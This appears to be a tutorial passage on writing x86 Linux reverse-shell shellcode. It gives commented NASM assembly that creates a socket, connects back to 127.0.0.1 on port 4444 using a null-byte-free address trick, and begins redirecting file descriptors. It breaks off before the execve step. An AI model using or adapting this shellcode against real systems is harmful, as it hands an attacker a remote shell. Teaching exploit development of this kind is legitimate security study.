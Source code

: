 As we can infer from the graphical presentation, there are 4 main Syscall stages to assemble when creating Reverse_Shell Shellcode.

- [ ] Create the socket
- [ ] Connect to the specified IP and port
- [ ] Duplicate the file descriptors using dup2
- [ ] Execute /bin/sh via execve

Analyzing the code within the corresponding lines:


```c
; Filename: reverse_shell.nasm
; Author:  Gal Nagli
; Blog:  naglinagli.github.io

global _start			

section .text
_start:
	
; setting up the socket
	xor ebx, ebx    ; zeroing out the ebx register
	mul ebx	       ; zeroing out eax and edx registers

	mov al, 0x66    ; setting eax to the socket_call SYSCALL
	mov bl, 0x01     ; assigning 1 to ebx register (SYS_SOCKET)	 
  
	push edx        ; push 0 to the stack (IPPROTO_IP)
	push ebx        ; push 1 to the stack (SOCK_STREAM)
	push 0x2        ; push 2 to the stack (AF_INET)

	mov ecx, esp    ; keep 1st argument address in ecx
	int 0x80         ; syscall
	mov edi, eax	; saving the file descriptor

; Connection
	
	xor ebx, ebx	; zeroing out ebx register
	mul ebx		; zeroing out eax and edx registers
	mov al, 0x66	
	mov bl, 0x03	; set ebx value to 3, (SYS_CONECT)
	
	mov ecx, 0x03020280	; set ecx register 3.2.2.128
	sub ecx, 0x02020201	; decrement 2.1.1.1
	push ecx		; push localhost (127.0.0.1) NULL-FREE
	push word 0x5C11       ; push the port number (4444)
	push word 0x02	       ; AF_INET syscall
		
	mov ecx, esp    ; keep 1st argument address in ecx.
	push byte 0x10    ; push the address length (addrlen)
	push ecx        ; sockaddr structure
	push edi        ; socketfd (file descriptors)
	mov ecx, esp    ; ecx holds the args array for the syscall
	int 0x80        ; init syscall



; Redirect the file descriptors using dup2

	pop ebx		; moving the file descriptor from the stack
	xor eax, eax	; zeroing out the eax register
	xor ecx, ecx    ; clearing ecx before using the loop
	mov cl, 0x2     ; setting the loop counter

looper:
```